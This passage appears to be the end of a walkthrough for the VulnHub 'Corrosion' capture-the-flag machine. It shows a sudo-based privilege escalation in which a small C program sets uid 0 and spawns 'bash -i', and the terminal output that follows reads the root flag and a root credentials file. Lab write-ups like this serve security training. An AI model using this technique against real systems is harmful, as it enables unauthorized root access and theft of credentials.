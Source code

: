 What we can try do is create our own binary using a simple code in `c`. _For reference, you can check out this blog by [Hacking Articles](https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/)_

```bash
randy@corrosion:~/tools$ nano easysysinfo.c
randy@corrosion:~/tools$ cat easysysinfo.c
#include <unistd.h>
#include <stdlib.h>

void main()
{
  setuid(0);
  setgid(0);
  system("bash -i");
}
randy@corrosion:~/tools$ gcc easysysinfo.c -o easysysinfo
randy@corrosion:~/tools$ chmod u+s easysysinfo
```

If we now run the binary, we are root. You can easily get the root flag in the `/root` directory and a bonus `root_creds.txt` in `/creds`.

```bash
randy@corrosion:~/tools$ sudo /home/randy/tools/easysysinfo
root@corrosion:/home/randy/tools# id
uid=0(root) gid=0(root) groups=0(root)
root@corrosion:/home/randy/tools# cd /root/
root@corrosion:~# ls -la
total 52
drwx------  7 root root 4096 Jul 30 15:59 .
drwxr-xr-x 20 root root 4096 Jul 29 17:05 ..
-rw-r--r--  1 root root  461 Jul 30 16:01 .bash_history
-rw-r--r--  1 root root 3106 Aug 14  2019 .bashrc
drwx------  2 root root 4096 Apr 20  2021 .cache
drwx------  3 root root 4096 Jul 30 14:24 .config
drwxr-xr-x  2 root root 4096 Jul 30 00:33 creds
drwxr-xr-x  3 root root 4096 Jul 29 17:16 .local
-rw-r--r--  1 root root   10 Jan 17 18:23 logs.txt
-rw-r--r--  1 root root  161 Sep 16  2020 .profile
-rw-r--r--  1 root root  251 Jul 30 15:31 root.txt
-rw-r--r--  1 root root   66 Jul 30 14:30 .selected_editor
drwxr-xr-x  3 root root 4096 Jul 29 17:10 snap
-rw-r--r--  1 root root    0 Jul 30 15:23 .sudo_as_admin_successful
root@corrosion:~# wc root.txt
  7  24 251 root.txt
root@corrosion:~# cat root.txt
FLAG: 4NJSA99SD7922197D7S90PLAWE

Congrats! Hope you enjoyed my first machine posted on VulnHub!
Ping me on twitter @proxyprgrammer for any suggestions.

Youtube: https://www.youtube.com/c/ProxyProgrammer
Twitter: https://twitter.com/proxyprgrammer
root@corrosion:~# cd creds/
root@corrosion:~/creds# ls -la
total 12
drwxr-xr-x 2 root root 4096 Jul 30 00:33 .
drwx------ 7 root root 4096 Jul 30 15:59 ..
-rw------- 1 root root   33 Jul 30 00:28 root_creds.txt
root@corrosion:~/creds# cat root_creds.txt
рандиистхебест1993

```
